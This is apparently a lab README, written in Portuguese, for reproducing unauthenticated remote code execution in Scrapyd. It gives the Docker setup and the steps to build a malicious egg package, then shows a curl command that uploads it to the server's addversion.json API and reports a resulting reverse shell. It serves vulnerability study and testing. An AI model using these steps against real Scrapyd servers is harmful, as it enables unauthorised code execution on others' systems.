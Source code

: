 # Scrapyd Unauthenticated Remote Code Execution

Scrapyd é um aplicativo para implantação e execução de aranhas Scrapy. Ele permite que os usuários implantem (upload) projetos e controlem seus spiders usando uma API JSON.

Referências: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Iniciar servidor

Execute o seguinte comando para iniciar um servidor scrapyd:

```bash
docker-compose up -d
```

Depois que o scrapyd é implantado, o servidor está escutando em `http://your-ip:6800`.

## Reproduzir

Construa um arquivo evil.egg

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Carregue o evil egg para o servidor scrapyd:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell foi realizada:

![](1.png)
